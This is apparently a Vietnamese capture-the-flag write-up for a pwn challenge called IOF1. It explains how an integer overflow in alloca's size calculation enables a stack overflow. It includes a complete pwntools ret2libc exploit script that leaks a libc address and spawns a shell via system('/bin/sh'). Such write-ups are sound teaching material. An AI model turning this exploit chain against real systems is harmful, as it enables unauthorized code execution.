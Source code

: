 <details>
<summary>IOF1 </summary>


**1. Tóm tắt đề:**

- Một file `iof1`
- Một file `ld-2.31.so`
- Một file `libc.so.6`
- Một file `source.c`

**2. Ý tưởng :**

- Đầu tiên ta sài `pwninit` để link với `libc` và `linker` đề cho
- Tiếp theo ta đọc source.f

![](https://i.imgur.com/4DzdGRt.png)

- Đề tạo biến `n` thuộc kiểu `unsigned long int`, sau đó gọi hàm `alloca()` để tạo buffer trên stack kế tiếp gọi hàm `read_str` để ghi vào buffer.
- Kế tiếp ta `checksec` để tìm hướng giải. Nhận thấy NX enable, PIE và Canary đều tắt do đó bài này mình thấy chỉ có giải bằng ret2libc

![](https://i.imgur.com/5O0tnvD.png)

- Để ret2libc thì hướng duy nhất là phải cho phải overflow `buffer` bằng hàm `read_str`. Cách duy nhất để thực hiện là phải sài int overflow `n*8 ` ở hàm `alloca`
- Ta check thử manpage của alloca coi argument của nó nhận range là bao nhiêu để overflow cho đúng

![](https://i.imgur.com/H2lG0wy.png)

- Nó argument của nó thuộc kiểu `size_t`, ta google tiếp xem size_t là gì thì biết được nó đại khái đại diện cho kiểu dữ liệu lớn nhất mà máy mình chịu được. Vậy `size_t` là 8 byte đối với máy 64 bit (số không dấu)

![](https://i.imgur.com/3Nwi2pH.png)


- Kế tiếp ta tìm range của `unsigned long int ` cũng như range của số 8 byte không dấu, lên document đọc thì ta được thông tin như sau : 

![](https://i.imgur.com/JZJIo3E.png)

- Để biết chính xác mình viết code test trên máy mình. 

![](https://i.imgur.com/eRRubsM.png)

- Vậy nếu ta nhập n lớn hơn số trên thì sẽ bị overflow. Argument của hàm alloca() chỉ nhận 8 byte do đó nếu ta nhập n sao cho khi nhân 8 mà kết quả lớn hơn 8 byte thì nó chỉ nhận 8 byte cuối. Ta sẽ lợi dụng nó để overflow.
- Giả sử mình muốn kết quả của `n*8` là `0x10000000000000008` (mình chọn số này vì nó là số nhỏ nhất khi bị overflow mà chia hết cho 8, chọn khác cũng được) khi đó bị overflow hàm `alloca` sẽ nhận `0x0000000000000008` vậy ta chia 8 để biết n cần nhập là bao nhiêu. Tính đúng ta được kết quả là `0x2000000000000000` tức là `2305843009213693952`.
- Vậy kế tiếp ta chỉ cần viết script để ret2libc.
```python
from pwn import *

exe = ELF("./iof1_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

p = process(exe.path) 
p.sendlineafter(b'> ',b'2305843009213693952')

pop_rdi = 0x00000000004013e3 
payload = b'A'*40 +  p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'])
p.sendlineafter(b'Enter your secret: ',payload) 
leak = p.readline()[:-1]
leak = u64(leak.ljust(8,b'\00'))

libc.address = leak - 492448 
p.sendlineafter(b'> ',b'2305843009213693952')

payload = b'A'*40 + p64(pop_rdi)+ p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system']) 
p.sendlineafter(b'Enter your secret: ',payload) 
p.interactive() 
```

- Chạy script trên ta có được shell.

</details>
